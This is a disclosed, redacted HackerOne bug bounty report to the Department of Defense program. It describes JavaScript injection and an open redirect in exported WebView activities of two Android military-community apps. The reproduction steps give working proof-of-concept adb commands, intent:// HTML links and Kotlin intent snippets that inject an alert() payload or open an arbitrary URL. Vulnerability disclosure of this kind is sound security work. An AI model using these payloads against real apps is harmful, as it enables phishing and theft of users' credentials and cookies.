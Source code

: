 # █████████ (Android): Vulnerable to Javascript Injection and Open redirect

## Report Details
- **Report ID**: 2555949
- **URL**: https://hackerone.com/reports/2555949
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-06-17T22:11:48.065Z
- **Disclosed**: 2024-07-26T15:00:23.640Z

## Reporter
- **Username**: cleanchain50
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Good afternoon,

I have discovered a misconfiguration in the WebView components of two apps, ████. This vulnerability allows an attacker to execute JavaScript and open any URL through a link or a malicious app.

The root cause of this issue is that certain activities are exported and set as browsable, exposing them to potential exploitation.
████████

## Impact

The potential impact of this vulnerability is high, as it allows an attacker to execute XSS within the WebView and open any HTTPS website. Possible attacks include phishing, creating fake login pages, and stealing service members' credentials. This could result in not only taking over ██████████ accounts but also potentially accessing other military applications and websites.

Additionally, the ability to execute JavaScript in these WebViews could enable attackers to steal cookies, further compromising user security.

## System Host(s)
███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
**My Military One Source: **

adb shell am start -n ████/████████.kotlin.MVVM.Utils.Web.WebviewActivity --es URL "javascript:(function() { alert('XSS by Cleanchain') })();"

adb shell am start -n ████████/███.kotlin.MVVM.Utils.Web.WebviewActivity --es URL "https://URL"

Browser Example:

```
<body>
    <a href="intent://app/feedback#Intent;scheme=mymos;package=█████████;S.URL=javascript:(function() { alert('XSS by Cleanchain') })();end">Open XSS</a>

    <a href="intent://app/feedback#Intent;scheme=mymos;package=█████████;S.URL=https://URL;end">Open URL</a>

</body>
```


Malicious App Example:

```
val intent = Intent().apply {  
    setClassName("█████", "███████.kotlin.MVVM.Utils.Web.WebviewActivity")  
    putExtra("URL", "javascript:(function() { alert('XSS by Cleanchain') })()")  
}  
startActivity(intent)

val intent = Intent().apply {  
    setClassName("████", "██████.kotlin.MVVM.Utils.Web.WebviewActivity")  
    putExtra("URL", "https://URL")  
}  
startActivity(intent)
```


**Chill Drills:**

adb shell am start -n ██████████/███████.Utils.Web.WebviewActivity --es URL "javascript:(function() { alert('XSS by Cleanchain') })();"

adb shell am start -n ██████/█████████.Utils.Web.WebviewActivity --es URL "https://URL"

Browser Example:

```
<body>
    <a href="intent://app/feedback#Intent;scheme=chdr;package=██████████;S.URL=javascript:(function() { alert('XSS by Cleanchain') })();end">Open XSS - █████████</a>

    <a href="intent://app/feedback#Intent;scheme=chdr;package=███;S.URL=https://URL;end">Open URL - ███</a>

</body>
```


Malicious App Example:

```
val intent = Intent().apply {  
    setClassName("██████", "████████.Utils.Web.WebviewActivity")  
    putExtra("URL", "javascript:(function() { alert('XSS by Cleanchain') })()")  
}  
startActivity(intent)

val intent = Intent().apply {  
    setClassName("███████", "████████.Utils.Web.WebviewActivity")  
    putExtra("URL", "https://URL")  
}  
startActivity(intent)
```

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
